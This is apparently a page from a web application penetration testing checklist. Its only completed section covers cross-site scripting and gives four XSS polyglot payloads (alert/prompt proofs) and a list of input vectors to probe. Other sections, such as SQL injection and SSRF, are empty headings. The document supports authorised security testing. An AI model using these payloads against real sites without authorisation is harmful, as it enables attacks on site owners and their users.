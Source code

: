 <!-- TITLE: WAPT05 - Tactical Fuzzing -->
<!-- SUBTITLE: Common web application vulnerabilities including SQL Injection, XSS, XXE, XSRF etc. -->

# WAPT5 - Tactical Fuzzing

## WAPT5.1 - Cross Site Scripting (XSS)

Does the page reflect any user inputs back into the page or source code after submission?

If so it could be subject to XSS.

### XSS Polyglot Payloads

#### Payload \#1

```text
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

#### Payload \#2

```text
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

#### Payload \#3

```text
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

#### Payload \#4

```text
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

### Input Vectors

* Customizable Themes & Profiles via CSS
* Event or meeting names
* URI based
* Imported from a 3rd party \(think Facebook integration\)
* JSON POST Values \(check returning content type\)
* File Upload names
* Uploaded files \(swf, HTML, ++\)
* Custom Error pages
* Fake params - ?realparam=1&foo=bar’+alert\(/XSS/\)+’
* Login and Forgot password forms

### Resources

* x

## WAPT5.2 - SQL Injection

## WAPT5.3 - Local/Remote File Inclusion \(LFI/RFI\)

## WAPT5.4 - Command Injection

## WAPT5.5 - File Uploads

## WAPT5.6 - Redirects

## WAPT5.7 - Parameter Tampering

## WAPT5.8 - Cross Site Request Forgery \(CSRF\)

## WAPT5.9 - Server Side Request Forgery \(SSRF\)

## WAPT5.10 - Server Side Template Injection \(SSTI\)

## WAPT5.11 - External Entity Injection \(XXE\)
